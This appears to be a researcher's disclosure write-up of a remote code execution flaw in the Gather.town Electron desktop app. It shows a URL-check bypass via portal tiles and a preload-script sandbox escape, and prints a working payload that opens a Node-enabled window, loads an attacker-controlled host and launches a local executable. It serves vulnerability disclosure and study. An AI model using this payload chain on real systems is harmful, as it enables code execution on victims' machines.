

## Overview

 During last year’s research, we conducted vulnerability analysis targeting metaverse-based commercial platforms. Among them, we would like to share some of the vulnerabilities that have been reported to the target company and have passed over time.

When you think of the real metaverse as a category, you can see that all technologies are gathered in one place and are harmonious. Among them, based on mobile and VR equipment, you will feel closer to the three major elements of the metaverse: SPACE, AVATAR, and ITEM. However, depending on how each element is implemented and used, vulnerabilities and attack vectors occur, resulting in metaverse hacking, causing great damage.

In this story, we will describe some of the several vulnerability analysis reports based on the [https://www.gather.town/](https://www.gather.town/) platform.

## Target

- Gather.town Binary based electronJS (Window, MacOS, Linux)

## Technical Severity (VRT category)

- P1 — Server-Side Injection > Remote Code Execution (RCE)

## Vulnerability details


### Gather.town has a portal function.
If you use the portal function, you can move to another space within the “gather.town” domain and it will be redirected to the <sub>.gather.town domain. This function is mainly used when moving to another place inside the Space.
what if? Can I use the redirect function of this portal function to induce RCE? Let’s check it out.

**URL / Location of vulnerability (optional)**

- mapMaker URL, Electron Based Application in the portal to space 

``` text
    <https://gather.town/mapmaker/><spaceID>/<spaceName>
    <https://gather.town/spaceID/app/><spaceID>/<spaceName>
```

- Electron Application Preload Script runs outside the Sandbox and starts before the Render Script is loaded, and these functions have access to application data structures that can be isolated or released from isolation in the Electron Sandbox.
- In Gather.town, the Preload Script was exported from the application program to the Global Window.
- preload (String-optional)
- Specifies a script that will be loaded before other scripts run in the page.
- This Scripts will always have access to node APIs no matter whether node integration is turned on or off.
- The Value should be the absolute file path to the script.
- When node integration is turned off, the preload script can reintroduce Node global symbols back to the golbal scope.


- lib/url.js in `URL(targetUrl)` Node js URL strings and URL objects Parse
- Blacklist (“localhost”, “gather.town”) hostname check for URL return value


**gather town Electron Application Portal Tile Object interaction before URL check logic**


- In Gather Town Electron based Application portal tile interaction to `enter key`


``` text
    (String(b).match("^\\\\s*(<http://localhost>:|https://([a-zA-Z0-9]+\\\\.)*gather\\\\.town($|/))")
    
    1. <http://localhost>:
    2. https://([a-zA-Z0-9])
    3. *gather.town
```

- When performing Portal Tile Interaction in Gather.town Electron Application, URL check is performed and is performed using regular expression (String.prototype.match()).

## Attack Pointer

- Input space for portal in mapMaker portal tile feature

**app.asar unpack (main.js:83, interop.js)**


**Preload scripts can introduce vulnerabilities**

The following is a part of the createWindow function in the main.js code after asar unpacked.


- `Preload` scripts are executed outside of the sandbox and are initiated before renderer scripts are loaded.
- These have legitimate uses such as granting access to application data structures that might be isolated or segregated in a sandbox.
- However, this comes with a catch. MVP Teams have demonstrated how isolation can be bypassed using preloads — meaning that insecure code within the sandbox can be executed.
- Preload scripts have access to Node.js, and the functions exported by applications to the global window often include dangerous primitives

**Isolation For Untrusted Content and Remote Code**

- When receiving code from an untrusted source (Remote Server)
- Security issues when running code locally

The following is an example of code that violates the security policy.
``` text
    Node js    -> (Enable) (Remote Code should not be executed.)
    Local File -> (Node JS enable)
    Remote Contents  -> <WebView>, BrowserView
        -> nodeIntegration (disable) 
        -> contextIsolation (enable)
```

**In Node.js Integration, Remote Content must be disabled.**

``` text
    - BrowserWindow
    - BrowserView
    - <webview>
```    

- The following Electron API can use NodeJS when Node.js is activated, so an attack can be executed based on this.
- An XSS attack may be more dangerous if an attacker can execute code in the RenderProcessEscape and the User stage.

``` tsx
    <!-BAD->
    const mainWindow = new BrowserWindow({
      webPreferences: {
        nodeIntegration: true,
        nodeIntegrationInWorker: true
      }
    })
    mainWindow.loadURL('<https://malware.in>')<!-BAD->
    <webview nodeIntegration src="exploit.html"></webview>
```

**gather.town MapMaker Portal tile Input space to portal to URL Check**

- Among the “MapMaker Portal Tile” functions, there is a function that allows you to move to the outside [Gather.town space] using [Portal to other space] rather than the current Room standard.


- The following source code is the part of the logic of [Input space to portal] based on the MapMaker function that performs URL-based inspection.


It can be seen that the blacklist-based hostname (localhost, gather.town) inspection method and HTTP security protocol (SSL) inspection are not performed.


- Since the `include` method checks only if the string is included based on the blacklist, if a server containing the string is built as follows, it can be expressed as the phrase below.

``` text
    <http://localhost.exploit.kr/>
```

- By bypassing the next host name check condition, it can be confirmed that the following conditions are ignored and returned after filtering is performed.


- If you specify the domain in the above way, you can see that you return the true value as follows, and based on this, you pass the URL check.


- If you open the server for request testing in a local environment, enter the domain `http://localhost/exploit_test` into a vulnerable Portal Tile, and proceed with the interaction, you can check the response values as follows and confirm that the operation is successful.

**gather town Electron Application Portal Tile Object interaction before URL check logic**

- However, when performing interaction on the vulnerable Portal, you can check the `The portal does not meet the URL requirement` error message as follows.


- Through the corresponding error message value, it may be confirmed that there is a verification algorithm when the interaction is performed internally (URL request).


- In Gather Town Electron based Application portal tile interaction to `enter key`

The following source code includes an algorithm that performs URL inspection when Portal Interaction is performed, and analysis was conducted on that part.


``` tsx
    String(b).match("^\\\\s*(<http://localhost>:|https://([a-zA-Z0-9]+\\\\.)*gather\\\\.town($|/))")
    
    1. <http://localhost>:
    2. https://([a-zA-Z0-9])*gather.town
```
    

- After unpacking the target source code, the 18122 line was analyzed, the regular expression check of `javascript String.prototype.match()` is performed, and if it is approximately in the form `http:localhost:port`, `https://` subdomain formats are included. If the values are included, if the True value is returned, it can be confirmed that the `window.location.href` object is substituted for Redirection.


- If the URL is inspected in the form of `user:password@` based on the `RFC 3986 protocol`, the following results can be confirmed.
- Wow, so let’s check the regular expression in the following URL formathttp://localhost:<anything>@localhost.exploit.kr/


- After passing the Portal Tile Check inspection through MapMaker and bypassing the Gather.town Electron regular expression, redirection is possible to the window.location.href attribute in the form of ‘localhost.*’, so the existing object responds in the desired direction.


- awesome, it can be confirmed that the Electron Application has been redirected in the desired direction and Output to the user as follows.

**Sandbox Escape and Code Execution via Electron preload scripts**


- Electron Preload Script runs outside the Sandbox and starts before the Render Script loads, and these features have access to application data structures that can be isolated or separated from the Electron Sandbox.
- Within the Electron Application, since the Preload Script exported from the application to the Global Window, Code Execution trigger is possible using the interop.js source.

**Electron Application NodeIntegration Options Enable (Node JS , Code Execution)**

- If you check the Interop.js code of the Gather.town Electron APP Source Code, you can see that the electronic module has been imported and the internally necessary APIs have been redefined in the Interop object.


- Introp objects defined in introp.js are assigned to global window objects and can be used globally.




- Among each method defined as `_electron_interop`, it is a `getCurrentWindow` method that can trigger code execution.
- `GetCurrentWindow` The inherited object has a `BrowserWindow` object, which can be used as an API to create and control the browser's window of the current web page, enabling `NodeIntegration` to run key Node JS and releasing detailed security options.


- In order to create an object ‘Browser Window’ of ‘getCurrentWindow’, it can be confirmed that a new window is turned on as follows as a result of loading after applying the corresponding attribute.
- The desired goal is Code Execution, and the API is used because it can be used if the ‘Node Integration’ attribute is activated in a way that utilizes NodeJS to perform it.

**Let’s refer to the next document.**

[BrowserWindow](https://tinydew4.github.io/electron-ko/docs/api/browser-window/)

- Let’s set the webPreferences function, which is the browser window sub-attribute described above.
- Since it will be redirected to an external host, if you check the security policies for the object, it is recommended to use the important Node JS, whether to use JS internally, release SOP to communicate with the external host, and release quarantine so that preloaded script access can be used externally. It also releases the sandbox of the browser.


- You can download malicious files by proceeding with external requests using the load URL API.
- The internal file of the target host stage can be accessed using `file://` Schema and if external requests are possible, proceed after releasing the `SOP`.
- The `win.webContents API` can utilize the object to perform Remote Code Execution through nodejs, which can be considered as the total management of the concept of IPC communication between the main process and the rendering process.
- Node js may be executed based on the main frame of the newly created window. By calling an external script using the corresponding window, you can finally check the result of the shell execution through the `contents.execute.JavaScript` API as follows.


- Finally, it can be seen that the Script operates as shown in the picture above. Based on this, Code JS may be executed through a Script executed on an external server (attack server) to trigger code requests.

## Any additional information?

### Payload

**payload (node js code execution)**

- Node JS is used to run code on the OS. Therefore, the `NodeIntegration` property of the Electron Application is activated.

``` tsx
    var i_b = _electron_interop.getCurrentWindow();
    i_i_b = new i_b.constructor(
        {
            width: 1024,
            height: 1024,
            webPreferences:{
                javascript: true,
                webSecurity: false,
                sandbox: false,
                contextIsolation: false,
                nodeIntegration: true,
            }
        }
    );
    // window, macOS, Linux
    var o_1 = "const {shell}=require('electron');shell.openExternal('file:C:/Windows/System32/calc.exe')";
    i_i_b.loadURL("<http://zer0Luck.kr/>");
    i_i_b.webContents.mainFrame.executeJavaScript(o_1);
```

**Electron Application BrowserWindow API**

The following are related to the Electron Application BrowserWindow API.

- **webPreferences Object (optional)** — Settings of web page’s features.
- **javascript (Boolean-optional)** Enables JavaScript Support (Default is true)
- **webSecurity (Boolean-optional)** When `false`, it will disable the `same-origin policy` (usually using testing websites by peorple), and set `allowRunningInsecureContent` to `true` if this options has not been set by user (Default is true)
- **sandbox (Boolean-optional)** if set, this will `sandbox` the renderer associated with the window, making it compatible with the Chromium OS-level `sandbox` and disabling the Node.js engine. This is not the same as the `nodeIntegration` option and the APIs available to the preload script are more limited.
- **context isolation (Boolean-optional)** Whether to run Electron APIs and the specified preload script in a separate Javascript Context. This option should be used when loading potentially untrusted remote content to ensure the loaded content cannot tamper with the preload script and any Electron APIs being used

**Node JS Code execution payload**

- Because Node JS is enabled, you can use the following Electron Application APIs.

``` tsx
    const {shell}=require('electron');
    shell.openExternal('file:C:/Windows/System32/calc.exe');
```

- It is an API in the form of `shell.openExternal(url[, options])` and the following are sub-related contents.

``` tsx
    shell.openExternal(url) -> url is Path of the file to be executed
```

- Assign the corresponding code to a string variable.

**Electron Application****loadURL API**

- electron Application loadURL API (Contentes Load API)
- Based on the Electron Application loadURL API, it proceeds to download files and codes in the attacker’s server.

The following is the attack direction and usage plan for loadURL.

``` tsx
    // Remote URL load
    win.loadURL('malware domain')// local file load
    win.loadURL(`file://${__dirname}/app/index.html`)
```

**executeJavascript API**

- executeJavascript API is used to interpret and execute NodeJS code to be used for attack.

The following is the usage format of that API.

``` tsx
    BrowserWindow(Instance).webContents.mainFrame.executeJavaScript(CODE EXECUTION);
```
